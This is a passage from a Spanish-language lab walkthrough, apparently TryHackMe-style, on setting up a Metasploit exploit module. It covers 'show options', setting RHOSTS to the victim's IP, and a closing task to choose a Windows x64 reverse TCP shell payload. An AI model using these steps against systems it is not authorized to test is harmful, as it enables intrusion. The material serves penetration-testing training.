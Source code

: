 ```bash
show options
```

![](/assets/img2/20250513195449.png)

3. **Analizar los parámetros requeridos**  
    En la tabla de opciones que aparece, se identifican todos los parámetros necesarios para que el módulo funcione correctamente.  
    Entre ellos, se destacan los que tienen el campo `Required` en **"yes"** y aún no tienen un valor asignado.
    

---

##### Parámetro requerido: `RHOSTS`

- Este valor representa la **IP de la máquina víctima**.
    
- Debe ser configurado manualmente con el siguiente comando:
    
```bash
set RHOSTS <IP_de_la_máquina>
```
    
- Luego puedes verificar que fue asignado correctamente con:
    
```bash
show options
```

- **Respuesta final:** RHOSTS

---
#### 4. Usually it would be fine to run this exploit as is; however, for the sake of learning, you should do one more thing before exploiting the target. Enter the following command and press enter: `set payload windows/x64/shell/reverse_tcp`
